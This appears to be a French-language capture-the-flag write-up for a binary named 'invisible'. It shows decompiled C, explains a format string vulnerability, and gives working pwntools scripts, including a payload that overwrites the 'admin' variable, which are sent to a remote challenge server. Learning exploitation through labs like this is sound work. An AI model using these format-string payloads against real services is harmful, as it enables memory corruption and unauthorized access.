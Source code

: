 on regarde le type de fichier `file invisible` (c'est du binaire)
`strings invisble` ne donne rien.
`chmod +x invsible` pour rendre le fichier éxecutable.

**déssemblage sur https://dogbolt.org

fonction main et print_flag:

``` C
//----- (0000000000401186) ----------------------------------------------------
int print_flag()
{
  return system("cat /home/ecowas/flag");
}

//----- (000000000040119C) ----------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s[140]; // [rsp+10h] [rbp-90h] BYREF
  int v6; // [rsp+9Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);
  v6 = rand() % 50;
  memset(s, 0, 0x80uLL);
  fgets(s, 128, stdin);
  printf(s);
  if ( v6 == 27 )
  {
    if ( admin == 200 )
      print_flag();
  }
  else
  {
    printf("Try again");
  }
  return 0;
}
```

donc, pour le défi, quelques faits que nous pouvons lire à partir du binaire :
- pas de PIE, donc toutes les adresses sont fixes, sympa
- la variable admin est à une adresse constante, vous pouvez trouver cela facilement avec un désassembleur ou un décompilateur
- le rng est amorcé avec srand(time(NULL)), ce qui signifie l'heure actuelle en secondes
- cela signifie que chaque seconde vous obtenez une nouvelle valeur aléatoire
- la valeur aléatoire v6 % 50 doit être 27, donc environ toutes les 50 tentatives, elle sera correcte sans que nous fassions quoi que ce soit.
- donc la seule chose que nous devons faire est d'écraser `admin` à `200`.

- *Nous avons trouvé quelque chose d'intéressant: `print(s)` c'est à dire que notre input sera affiché d'abord.* Voyons celà   
![[test1.png]]
Sound interesting ;-) .
Testons le **Format string vulnerability**  [article:](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b):
![[formatstring.png]]
Gooooddddd !!! nous avons des addresses du stack.

- **Allons plus loin**: Où est stocké notre input?
```python
from pwn import *


for i in range(10):
    p = process(["./invisible"])
    p.sendline(f"AAAAAAAA %{i}$lx") # i représente l'argument
    print(i, p.readline(1024))
    p.close()
    print("\n")
```

l'argument 8 afficher notre input en  `hex`:
![[arg8.png]]

Maintenant on cherche l'adresse de la fonction `admin`:
![[adminfunc.png]]

Cherchons notre padding entre le format string et l'addresse:
addresse `%8$n`  commence à l'octet 0
addresse `%9$n` à l'octet 8
addresse `%10$n` à l'octet 16

**Exploitation**
shellcode= `%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00`
%200c%10$n : on écrit 200 dans l'argument 10
XXXXXX: ne signifie rien, on peut le remplacer par des espaces ou null bytes
\x5c\x40\x40\x00\x00\x00\x00\x00 : l'adresse de l'admin en `Little endian`

exploit 1: Simple mais il faut taper entrée à chaque fois pour avancer
```python
from pwn import *

for i in range(51):
    r = remote("51.38.37.81", 1234)
    r.sendline(b"%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00")
    r.interactive()
```

exploit 2: automatisé
```python
from pwn import *
import sys
import time


context.log_level = "error"

binary = ELF("./invisible")
admin_addr = binary.symbols["admin"]
print(f"&admin = {hex(admin_addr)}")

for i in range(100):
    r =remote("51.38.37.81", 1234) 

    fmtstr = b"%200c%11$n%25$016lx\0\0\0\0\0"
    assert len(fmtstr) == 24
    fmtstr += p64(admin_addr)

    r.sendline(fmtstr)

    data = r.readall()
    data2 = data[200:] # remove garbage
    try:
        rand = int(data2[0:8].decode(), 16)
        text = data2[16:].decode()
        print(f"i = {i}, rand = {rand}, text = {text}")

        if rand == 27:
            print("this should have been the flag, maybe admin isn't correctly overwritten?")
            break
    except Exception:
        print(data) # print whole line, probably flag
        break

    time.sleep(1)
```

THAT'S IT !!!!!!!!!!!!!!!!!!!!!!!!!!!! ;-)
